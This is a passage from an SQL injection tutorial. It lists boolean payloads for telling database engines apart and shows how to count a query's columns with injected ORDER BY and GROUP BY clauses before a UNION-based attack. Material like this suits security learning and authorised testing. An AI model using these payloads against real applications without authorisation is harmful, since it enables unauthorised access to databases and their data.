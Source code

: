 ```bash
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

Also, if you have access to the output of the query, you could make it **print the version of the database**.

> [!NOTE]
> A continuation we are going to discuss different methods to exploit different kinds of SQL Injection. We will use MySQL as example.

<br>

### Identifying with PortSwigger
---

## Exploiting Union Based
---

<br>

### Detecting number of columns
---

If you can see the output of the query this is the best way to exploit it.\
First of all, wee need to find out the **number** of **columns** the **initial request** is returning. This is because **both queries must return the same number of columns**.\
Two methods are typically used for this purpose:

<br>

### Order/Group by
---

To determine the number of columns in a query, incrementally adjust the number used in **ORDER BY** or **GROUP BY** clauses until a false response is received. Despite the distinct functionalities of **GROUP BY** and **ORDER BY** within SQL, both can be utilized identically for ascertaining the query's column count.

```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

```sql
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```
